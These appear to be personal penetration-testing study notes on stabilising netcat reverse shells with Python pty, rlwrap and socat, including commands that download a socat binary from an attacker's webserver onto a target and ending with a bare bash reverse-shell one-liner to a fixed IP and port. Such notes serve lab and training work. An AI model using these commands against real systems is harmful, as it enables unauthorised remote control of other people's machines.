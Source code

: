 **Below we are discussing three techniques to stabilise netcat shell**

1. Technique 1: Python
- The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default.
- This is a three stage process:
	1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
		- At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things:
		- first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
		- It then foregrounds the shell, thus completing the process.
**The full technique can be seen here:**
![[shells5.png]]
**Note** - if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

2. Technique 2: rlwrap
	- rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
	- rlwrap is not installed by default on Kali, so first install it with
```python
sudo apt install rlwrap
```

To use rlwrap, we invoke a slightly different listener:
```python
rlwrap nc -lvnp <port>
```

- This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
- When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

3.  Technique 3: Socat
	- The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.
	- this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.
	- To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.
		- A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
		- For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`)
**Changing your terminal tty size**
1. First, open another terminal and run `stty -a`. 
![[shells6.png]]
Note down the values for "rows" and columns:

2. Next, in your reverse/bind shell, type in:
`stty rows <number>`  

and

`stty cols <number>`

bash -i >& /dev/tcp/10.17.47.177/4444 0>&1

